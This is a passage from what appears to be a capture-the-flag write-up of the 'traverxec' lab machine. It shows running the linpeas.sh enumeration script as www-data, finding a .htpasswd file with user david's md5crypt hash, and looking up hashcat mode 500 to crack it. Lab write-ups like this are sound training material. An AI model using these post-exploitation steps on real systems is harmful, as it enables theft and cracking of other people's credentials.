 ```shell

2021-10-17 18:33:30 (328 KB/s) - 'linpeas.sh' saved [477235/477235]

www-data@traverxec:/dev/shm$ chmod +x linpeas.sh
www-data@traverxec:/dev/shm$ ./linpeas.sh
```

## .htpasswd

One of the things that it found out was a .htpasswd file:

```shell
╔══════════╣ Analyzing Htpasswd Files (limit 70)
-rw-r--r-- 1 root bin 41 Oct 25  2019 /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

## Crack .htpasswd

We need to find the the module that we will need to use for hashcat for recognize the hash, based on the output we can see that the hash type is md5crypt and its mode number is `500`:
```shell
❯ cat hash.txt
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: hash.txt
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ hashcat --example-hashes | grep '\$1\$' -B 2

MODE: 500
TYPE: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
HASH: $1$38652870$DUjsu4TTlTsOe/xxZ05uf/
--
MODE: 12200
TYPE: eCryptfs
HASH: $ecryptfs$0$1$4207883745556753$567daa975114206c
--
MODE: 16700
TYPE: FileVault 2
HASH: $fvde$1$16$84286044060108438487434858307513$20000$f1620ab93192112f0a23eea89b5d4df065661f974b704191
--
MODE: 22100
TYPE: BitLocker
HASH: $bitlocker$1$16$6f972989ddc209f1eccf07313a7266a2$1048576$12$3a33a8eaff5e6f81d907b591$60$316b0f6d4cb445fb056f0e3e0633c413526ff4481bbf588917b70a4e8f8075f5ceb45958a800b42cb7ff9b7f5e1
7c6145bf8561ea86f52d3592059fb
```
